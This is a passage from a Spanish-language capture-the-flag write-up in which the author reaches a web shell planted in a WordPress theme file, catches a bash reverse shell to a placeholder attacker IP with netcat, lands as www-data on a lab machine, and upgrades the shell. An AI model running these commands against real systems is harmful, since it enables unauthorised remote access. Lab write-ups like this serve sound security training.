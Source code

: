 
Bien, ya solo tenemos que visitar nuestra **WebShell o Reverse Shell**.

Sería esta ruta: `http://IP/wp-content/themes/Nombre_Tema_Usado/pattern/archivo_usado.php`

Probémoslo:

<p align="center">
<img src="/assets/images/THL-writeup-debugsec/Captura9.png">
</p>

Ya tenemos nuestra **WebShell**.

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Ejecuta la siguiente **Reverse Shell**:
```bash
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'
```

<p align="center">
<img src="/assets/images/THL-writeup-debugsec/Captura10.png">
</p>

Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.210] 54246
bash: cannot set terminal process group (520): Inappropriate ioctl for device
bash: no job control in this shell
<html/wp-content/themes/twentytwentythree/patterns$ whoami
whoami
www-data
```

Ya solo obtén una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4: 
reset -> xterm

# Paso 5:
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
```
Listo.

